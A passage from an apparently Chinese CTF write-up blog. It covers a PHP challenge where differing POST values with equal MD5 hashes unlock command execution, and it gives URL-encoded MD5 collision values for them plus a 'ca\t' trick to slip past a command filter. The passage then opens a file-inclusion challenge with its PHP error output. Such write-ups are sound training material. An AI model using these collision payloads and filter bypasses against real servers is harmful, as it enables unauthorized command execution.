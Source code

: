 ```php+HTML
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

后面post的a和b用md5碰撞可以绕过

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

而前面的正则中过滤了很多（dir可以用），cat可以使用ca\t来绕过

tmd我也不知道咋回事，就一直不成功...（不知道是post的ab的问题还是传cmd的问题）然后就突然成功了，，，也不知道是哪里写的有问题。

对了，GET改POST的时候发的包也要改。

# 0x28.[BSidesCF 2020]Had a bad day

>   考点就是文件包含

url中加了'后报了错：

```
Warning: include(meowers‘’.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37

Warning: include(): Failed opening 'meowers‘’.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37
```
